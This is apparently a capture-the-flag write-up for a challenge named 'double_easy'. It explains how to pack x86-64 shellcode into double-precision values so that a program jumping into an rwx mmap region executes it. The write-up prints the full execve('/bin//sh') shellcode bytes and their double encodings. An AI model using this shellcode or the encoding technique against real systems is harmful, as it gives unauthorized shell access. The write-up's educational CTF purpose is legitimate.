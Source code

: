 # double_easy
This is simple but yet in my opinion fun enough task.

At the begging we see mmap is getting called. It creates rwxp mapping. User input getting placed at 0x7ffff7ff6000. 

![](/images/random_tasks/double_easy/01.png)

![](/images/random_tasks/double_easy/02.png)

At the end most registers getting xord and we jmp to address from rax.

![](/images/random_tasks/double_easy/03.png)

The goal here is to combine double values into a shellcode.

When jmp rax happens rax = 0x7ffff7ff6800

Double value with maximum exponent is placed at that address. So we need to jmp from there to the begging of our shellcode ie. to 0x7ffff7ff6000.

![](/images/random_tasks/double_easy/07.png)

I used http://www.binaryconvert.com/convert_double.html to convert hex values to doubles.

482d00080000ffe0 -> e0ff000008002d48 = -1.70246984590177777930935029465E159

So I tried it but in gdb I noticed that value at 0x7ffff7ff6800 was changed to e0cf000008002d48. 

0xe0f - 0x3 = 0xe0c => we should place 0xe0f + 0x3 = 0xe12 => e12f000008002d48

e12f000008002d48 = -1.36197587672142222344748023572E160

This worked.

![](/images/random_tasks/double_easy/04.png)

I used following shellcode:

![](/images/random_tasks/double_easy/05.png)

Setting rsp to 0x7ffff7ff6600 at start there.

sc = "\x48\x05\x00\x06\x00\x00\x48\x89\xC4\x31\xC0\x48\xBB\xD1\x9D\x96\x91\xD0\x8C\x97\xFF\x48\xF7\xDB\x53\x54\x5F\x99\x52\x57\x54\x5E\xB0\x3B\x0F\x05"

9090909048050006  -> 0600054890909090 = 8.82579544590269863191205692881E-280

00004889C431C048  -> 48C031C489480000 = 2.82146330475893377060216454638E42

BBD19D9691D08C97  -> 978CD091969DD1BB = -3.08380742074420402109506446037E-195

FF48F7DB53545F99  -> 995F5453DBF748FF = -1.80009256564271863951964737918E-186

5257545EB03B0F05  -> 050F3BB05E545752 = 2.62548796026479771567446783154E-284

![](/images/random_tasks/double_easy/06.png)